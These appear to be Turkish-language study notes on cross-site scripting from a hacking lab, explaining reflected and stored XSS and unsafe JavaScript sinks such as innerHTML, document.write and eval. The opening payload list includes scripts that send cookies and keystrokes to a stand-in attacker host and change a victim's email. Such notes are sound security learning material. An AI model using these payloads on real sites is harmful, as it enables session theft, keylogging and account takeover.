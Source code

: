 # PAYLOADS

* `<script>alert('XSS');</script>` : Sitede js kodu çalıştırılabilir mi anlamak için yapılan basit bir popup komutu.

* `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

* `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>` : Keylogger

* `<script>user.changeEmail('attacker@hacker.thm');</script>`

## Reflected XSS

Eğer bir web uygulaması kullanıcı tarafından girilen verileri yeterince kontrol etmez ve bu verileri doğrudan web sayfasının kaynak koduna eklerse burda bir **Reflceted XSS** açığı oluşabilir.

## Stored XSS
Adından da anlaşılacağı gibi, XSS verisi web uygulamasında (örneğin bir veritabanında) depolanır ve daha sonra diğer kullanıcılar siteyi veya web sayfasını ziyaret ettiğinde çalıştırılır. 

---

## Kaynak kodunda hangi güvenli olmayan JavaScript yöntemini aramak iyidir?

### InnerHTML Kullanımı:
innerHTML özelliğinin kullanımı, kullanıcı tarafından sağlanan verilerin doğrudan HTML içine yerleştirildiği bir durumu işaret edebilir. Bu, kötü niyetli kullanıcıların HTML ve JavaScript enjekte etmesine olanak tanıyabilir.

### Document.Write Kullanımı:
`document.write` fonksiyonu, sayfanın yüklenme sırasında dinamik olarak içeriği değiştirmek için kullanılır. Ancak, bu yöntem kullanıcı girişlerini kontrol etmeden doğrudan içerik ekleyebilir ve güvenlik riskleri oluşturabilir.

### eval() fonksiyonu:
metin olarak verilen bir JavaScript ifadesini çalıştırır. Kullanıcı tarafından sağlanan verilerle doğrudan kullanıldığında, güvenlik açıklarına neden olabilir. eval yerine daha güvenli alternatifler kullanılmalıdır.

### Inline JavaScript Kodları:
Sayfa içindeki HTML etiketleri arasında veya `onclick`, `onmouseover`, gibi HTML özelliklerinde kullanılan inline JavaScript kodları, kullanıcı girişlerinin doğrudan çalıştırılmasına neden olabilir.


